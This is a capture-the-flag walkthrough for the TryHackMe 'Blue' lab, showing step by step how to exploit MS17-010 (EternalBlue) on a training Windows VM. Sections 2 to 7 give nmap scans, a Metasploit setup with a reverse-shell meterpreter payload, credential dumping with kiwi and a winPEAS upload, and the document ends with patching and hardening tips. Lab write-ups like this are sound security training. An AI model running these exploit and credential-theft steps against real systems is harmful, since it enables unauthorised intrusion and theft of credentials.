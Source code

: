 # TryHackMe: Blue – Walkthrough

Room Link: https://tryhackme.com/room/blueDifficulty: Beginner / IntermediateFocus: Exploiting MS17-010 (EternalBlue) on a Windows VMTools:

use : Kali Linux (or any pentest distro)
Tools : Nmap, Metasploit Framework, SMB enumeration scripts


# Table of Contents

1: Overview & Setup

2: Network Scanning & Enumeration

3: Vulnerability Verification (MS17-010)

4: Exploitation with Metasploit

5: Gaining a Meterpreter Shell

6: Post-Exploitation & Privilege Escalation

7: Capturing Flags & Room Questions

8: Mitigation & Hardening Tips

9: Repository Structure

## 1. Overview & Setup

Join the VPN

sudo openvpn --config ~/Downloads/tryhackme.ovpn

Confirm connectivity

ip a            # Check your tun0 interface
ping 10.10.10.10  # Replace with the room's gateway to verify

Note the target IP (you’ll see it in the room’s instructions).

In this walkthrough we'll call it <TARGET_IP>

## 2. Network Scanning & Enumeration

### 2.1 Full TCP Port Scan

nmap -p- -T4 -oN nmap/full-tcp-portscan.txt <TARGET_IP>

Finds all open TCP ports (e.g., 135, 139, 445, 3389)

### 2.2 Service & Version Detection

nmap -sC -sV -p 135,139,445,3389 -oN nmap/service-detect.txt <TARGET_IP>

-sC runs default scripts

-sV detects versions

### 2.3 SMB-Specific Enumeration

nmap -p445 --script smb-os-discovery,smb-vuln-ms17-010 -oN nmap/smb-enum.txt <TARGET_IP>

smb-os-discovery → OS details

smb-vuln-ms17-010 → checks EternalBlue vulnerability

## 3. Vulnerability Verification (MS17-010)

Check the nmap/smb-enum.txt output. You should see:

| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE-2017-0143

If State: VULNERABLE appears, proceed.

## 4. Exploitation with Metasploit

Launch Metasploit

msfconsole

Search for EternalBlue module

search ms17_010

Select the exploit

use exploit/windows/smb/ms17_010_eternalblue

Configure options

set RHOSTS <TARGET_IP>
set LHOST <YOUR_TUN0_IP>
set LPORT 4444           # or any free port
set PAYLOAD windows/x64/meterpreter/reverse_tcp

Optional – check targets

show targets

Run the exploit

exploit

You should see a meterpreter session open.

## 5. Gaining a Meterpreter Shell

Once the exploit succeeds:

[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.42:49155) at 2025-07-03 19:30:00 +0530

Inside Meterpreter:

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : BLUE
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64

## 6. Post-Exploitation & Privilege Escalation

Check for credentials with Mimikatz (if available)

meterpreter > load kiwi
meterpreter > creds_all

Upload & run winPEAS

meterpreter > upload /root/tools/winPEAS/winPEAS.exe C:\Windows\Temp\\
meterpreter > execute -f C:\Windows\Temp\winPEAS.exe

Review output

Look for unquoted service paths, weak permissions, etc.

## 7. Capturing Flags & Room Questions

User flag

cat C:\Users\Guest\Desktop\user.txt

Root flag (SYSTEM)

cat C:\Users\Administrator\Desktop\root.txt

Answer key questions in the room:

What SMB version is running?

What exploit did you use?

What is the OS build number?

What is the content of each flag?

## 8. Mitigation & Hardening Tips

Patch Management: Apply MS17-010 patch (KB4013389)

SMBv1: Disable if not required

Network Segmentation: Limit SMB traffic

Endpoint Monitoring: Alert on unusual SMB behavior

## 9. Repository Structure

blue-walkthrough/
├── README.md               # This detailed walkthrough
├── nmap/
│   ├── full-tcp-portscan.txt
│   └── smb-enum.txt
├── metasploit/
│   └── msf-session.log
├── post-exploit/
│   ├── winPEAS-output.txt
│   └── creds_all.txt
└── screenshots/
    ├── nmap-smb.png
    ├── metasploit-shell.png
    └── flag-root.png

🎉 Congrats! You’ve fully exploited and documented the Blue machine.Feel free to open an issue or PR if you find anything to improve!


